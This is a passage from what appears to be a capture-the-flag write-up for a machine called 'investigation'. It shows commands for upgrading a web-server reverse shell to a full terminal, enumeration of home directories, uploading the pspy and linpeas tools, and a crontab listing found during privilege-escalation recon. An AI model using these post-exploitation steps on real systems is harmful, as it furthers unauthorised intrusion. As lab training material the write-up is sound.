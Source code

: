 Now stabilizing the shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL + Z
stty raw -echo;fg
reset
```

We have only one user and we don't have access to his directory

```
www-data@investigation:~/uploads/1674427385$ cd /home
www-data@investigation:/home$ ls
smorton
www-data@investigation:/home$ cd smorton/
bash: cd: smorton/: Permission denied
www-data@investigation:/home$ 
```

I'll upload pspy and linpeash.sh

After about some minutes pspy showed a cron is running 

Lets check crontab out

```
www-data@investigation:/tmp$ crontab -l
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command

*/5 * * * * date >> /usr/local/investigation/analysed_log && echo "Clearing folders" >> /usr/local/investigation/analysed_log && rm -r /var/www/uploads/* && rm /var/www/html/analysed_images/*
www-data@investigation:/tmp$ 

```
